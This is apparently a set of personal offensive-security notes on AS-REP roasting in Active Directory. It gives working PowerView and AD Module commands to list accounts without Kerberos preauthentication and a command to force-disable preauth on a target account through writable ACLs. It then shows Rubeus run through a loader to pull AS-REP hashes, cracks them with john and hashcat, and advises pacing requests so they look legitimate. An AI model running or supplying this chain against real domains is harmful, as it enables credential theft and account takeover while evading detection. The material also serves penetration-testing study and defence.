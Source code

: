 If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline

With sufficient rights (`GenericWrite` or `GenericAll`), Kerberos preauth can be forced disabled as well. **Targeted AS-REP Roasting to get a user password**

---
Discover AS-REP Roastable users (PowerView + AD Module)
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -
Properties DoesNotRequirePreAuth
```
---
**Targeted AS-REP Roast** - force disable Kerberos Preauth

Find possible ACLs to leverage
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Force disable Kerberos Preauth
```powershell
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
```

Verify
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
---
**DO ONE ACCOUNT AT A TIME TO HAVE THE TICKET REQUESTS LOOK LEGITIMATE**

AS-REP BBQ
```powershell
.\Loader.exe -path .\Rubeus.exe -args asreproast /user:VPN548user /outfile:VPN548user_asrep.txt
```

Crack
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt VPN1user_asrep.txt

hashcat -m 18200 VPN548user_asrep.txt ~/rockyou.txt -O -r ~/opt/wordlists/best64.rule
```

![[Pasted image 20250514193601.png]]